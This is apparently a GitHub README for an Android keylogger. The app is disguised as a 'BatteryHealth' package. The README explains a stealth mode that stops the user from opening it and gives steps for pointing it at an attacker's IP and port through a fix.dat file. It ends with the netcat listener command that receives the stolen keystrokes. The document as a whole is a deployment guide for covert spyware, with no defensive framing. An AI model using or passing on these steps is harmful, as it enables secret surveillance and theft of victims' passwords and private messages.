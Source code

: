# android-keylogger
project was originaly built in a AIDE (mobile app dev) using an old 2.2 gradle build on max api 21

this version was built in android studio electric eel 2022.1.1 with gradle updated to 7.6 and api all the way up to 33 (android 13)


# STEALTH

due to new security features android api 29 and above (oreo and up i believe) it will make it hard to near impossible to hide the app without root.
the stealth version does not allow the app to be open, just a white icon and it just opens the app details menu, sits in the app droor.

in stealth you must make and place your own fix.dat file in the app directory 
Android/data/com.BatteryHealth/files/key/fix.dat
after making fix.dat inside add "192.168.0.135:4444"
without the quotes and replace ip and port with your own ip:port


# NORMAL INSTALL

open the app and just place your ip:port and tap send



# VIEWING LOGS

open netcat and do


for windows use netcat 5.59 beta
.\ncat.exe -klvp 4444

just tells netcat to listen on port 4444 and not close

enjoy!











#credits
forked from https://github.com/shivamsuyal/Android-Keylogger
icon <a href="https://www.flaticon.com/free-icons/cyber-attack" title="cyber attack icons">Cyber attack icons created by Taimoor D - Flaticon</a>
